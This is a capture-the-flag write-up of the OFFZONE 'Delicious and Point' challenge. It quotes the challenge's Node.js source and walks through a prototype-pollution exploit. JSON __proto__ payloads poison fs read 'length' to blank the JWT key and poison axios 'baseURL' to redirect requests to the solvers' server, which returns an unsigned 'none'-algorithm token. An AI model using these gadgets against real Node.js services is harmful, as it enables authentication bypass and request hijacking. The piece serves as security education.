

# Delicious and Point - "OFFZONE" prototype pollution challenge


[OFFZONE Moscow](https://offzone.moscow/) team made a great [challenge](https://ctf.bi.zone/challenges/18) on prototype pollution and we with my friend [Varik Matevosyan](https://twitter.com/D4RK7ET) had a fun time finding gadgets for it.
<!--more-->


### The challenge
The description of the challenge was:
> Hey, guys! McDonald's has [rebrended](http://delipo.ctfz.one/). But now there is no BigMac. I'm very sad, I'm loving it. Here is [source](https://ctf.bi.zone/files/delipo.zip.c06b1361a9d85b91d973497ea1be9262.zip)

```yaml
version: '3'

services:
  back_server:
    build: ./back_server
    command: node index.js
    expose:
      - "3000"
    deploy:
      resources:
        limits:
          cpus: '0.5'
          memory: 200M

  front_server:
    build: ./front_server
    command: node index.js
    expose:
      - "3000"
    deploy:
      resources:
        limits:
          cpus: '0.5'
          memory: 200M


  nginx:
    build: ./browser_front
    ports:
      - 80:80
    deploy:
      resources:
        limits:
          cpus: '0.5'
          memory: 200M
```

As stated in the `docker-compose.yaml` file above the challenge website consisted of 3 services:
- `browser_front` for serving static files,
- `front_server` for processing order requests from users
- `back_server` for creating the orders

_browser_front/nginx/default.conf_
```nginx
upstream front_server {
    server front_server:3000;
}


server {
    listen       80 default_server;
    server_name  localhost;

    #access_log  /var/log/nginx/host.access.log  main;

    location /create_order {
        proxy_pass http://front_server;
    }

    location / {
        try_files $uri $uri/  =404;
        root   /var/www/html;
        index  index.html index.htm;
    }

}
```

_front_server/index.js_ snippet
```javascript
app.post('/create_order', async (req, res) => {

  console.log(req.body);
  console.log(JSON.stringify(req.body));

  const child = child_process.spawn('node',['./make_order.js'],{timeout:3000});

  child.stdin.write(JSON.stringify(req.body));
  let scriptOutput = '';

  child.stdout.setEncoding('utf8');
  child.stdout.on('data', function(data) {
      data=data.toString();
      scriptOutput+=data;
  });

  child.once('exit', function(code) {
      try {
        console.log ("parsing: scritOutput")
        console.log(scriptOutput)
        created_order = JSON.parse(scriptOutput)
        categories.map( (category) => { 
          if(created_order[category]['BigMac'] > 0){
              //Wow, you bougth BigMac!
            created_order[category]['flag'] = fs.readFileSync('./flag.txt').toString()
          }
        });
        res.json({created_order})
      }
      catch (e)
      {
        console.log(e)
        res.json({error:"error"})
      }
  });
  

})
```

So to get the flag we need to set `BigMac` property of some category to a value greater than 0 (line 23 above).
But there is one problem - the backend server sets `BigMac` property of the category to 0 if it is set the property exists (line 17 below).

_back_server/index.js_
```javascript
app.post('/create_order', (req, res) => {

  const bad_categories = Object.keys(req.body).filter( (key) => categories.indexOf(key)==-1 )
  
  if (bad_categories.length>0) {
    res.json({success: false,message:'bad format1'})
    return
  }

  categories.map( (category) => {
    if(Object.keys(req.body).indexOf(category) == -1 ) {
      res.json({success: false,message:'bad format2'})
      return
    }


    if(Object.keys(req.body[category]).indexOf('BigMac') != -1 )
    {
      //BigMac is too hard!!! We can't make it.
      req.body[category]['BigMac']=0;
    }
  });

  result = {success: true, jwt: jwt.sign(req.body,jwt_key,{algorithm:'HS256'})}
  res.json(result)
})
```

### Finding prototype pollution sink

We could not find any vulnerability in either `front_server/index.js` or `back_server/index.js`, so we started inspecting `front_server/make_order.js`.

_front_server/make_order.js_
```javascript
const open = require('node:fs/promises').open;
const jwt = require('node-jsonwebtoken');
const axios = require('axios');

var instance = axios.create({
  baseURL: 'http://back_server:3000',
  timeout: 1000
});

const categories = ['meat','chicken','potato']


async function main() {
	process.stdin.on('data', async (data) => {
		//create order in correct format
		var order = {};
		categories.map( (category) => { order[category] = {} });
		data = JSON.parse(data);
		Object.keys(data).map( (category) => {
			Object.keys(data[category]).map( (item) => {
				order[category][item] = data[category][item]
			})
		});

		const headers = {   'Content-Type': 'application/json' }

		let response = await instance.post('/create_order',JSON.stringify(order),{headers});
		if( !response.data.success ) {
			console.log({"error":"error"})
			process.exit()
		}
		let token = response.data.jwt;
		// let's check jwt
		
		// effective key reading
		let fd = await open('./jwtkey.txt');
		let x = await fd.read({buffer: Buffer.alloc(1024)});
		let key = x.buffer.toString().slice(0,x.bytesRead);

		let created_order = jwt.verify(token,key);

		delete created_order['iat'];

		console.log(JSON.stringify(created_order,null,null));
		
		process.exit()

	} )
}
main();
```

On line 21, we can see obvious prototype pollution which can be achieved with the following JSON object:
```json
{
    "__proto__": {
        "polluted": 1
    }
}
```

There is no proper gadget in the `make_order.js` itself (only `response.data.success` and `response.data.jwt` which were not of much use), which meant we needed to go deeper into used dependencies.

### Finding the gadgets

There are 3 dependencies used in the script:
- [node:fs/promises](https://nodejs.org/api/fs.html)
- [node-jsonwebtoken](https://github.com/auth0/node-jsonwebtoken)
- [axios](https://github.com/axios/axios)

So the plan was to redirect axios client to our server somehow, provide a jwt signed by us and make the dep `node-jsonwebtoken` verify it as valid.

Node.js docs on [`fsPromises.open`](https://nodejs.org/api/fs.html#fspromisesopenpath-flags-mode) shows that it opens a [`<FileHandle>`](https://nodejs.org/api/fs.html#class-filehandle) and `make_order.js` uses to read `./jwtkey.txt` file (line 36) which has a very interesting option for us - `length`(see [here](https://nodejs.org/api/fs.html#filehandlereadbuffer-offset-length-position)). If we can pollute that property of the options we could make it read 0 bytes.

```JSON
{
    "__proto__": {
        "length": 0
    }
}
```

Sending a request to `https://delipo.ctfz.one/create_order` with the body above results in an error, which most probably indicates that the server failed to verify with jwt key, as it was empty when passed to `jwt.verify` on line 40.


Now we need to make axios to send the request to a server controlled by us and respond with our jwt token. `baseURL` set in line 6 seems to be the best fit, but it is already passed as an option. Disregarding that fact, we tried to pollute `baseURL` with the following JSON object:

```JSON
{
    "__proto__": {
        "length": 0,
        "baseURL":"https://our-server"
    }
}
```

And to our surprise, it worked!


But we wanted to know what was the reason for this behavior, and digging into `axios` codebase we found `mergeConfig` function which was responsible for that. In `lib/core/mergeConfig.js` on line 93 ([here](https://github.com/axios/axios/blob/6acb5ef8ff127db65da85189b3ccaeb10b93121a/lib/core/mergeConfig.js#L93)) we can see that it calls a function using `mergeMap` map (line 63) for the provided config properties. For `baseURL` it is `defaultToConfig2` (defined on line 46) which itself calls `getMergedValue` (defined on line 18) which effectively merges our polluted `baseURL` into the passed config.

### Exploiting

As we previously set the key as and empty string with a polluted `length:0` property, we can now create a JWT with no signature (e.g. `none` algorithm). So our server should respond with something like:

```JSON
{
    "success": "true",
    "jwt":"eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJtZWF0Ijp7IkhhbWJ1cmdlciI6MCwiQ2hlZXNlYnVyZ2VyIjowfSwiY2hpY2tlbiI6eyJDaGlja2VuQnVyZ2VyIjowLCJCaWdNYWMiOjF9LCJwb3RhdG8iOnsiRnJpZXMiOjAsIkNvY2EtQ29sYSI6MH19."
}
```

And finally, by sending the request to our server we will get the flag!




Cover image from https://portswigger.net/blog/finding-client-side-prototype-pollution-with-dom-invader.
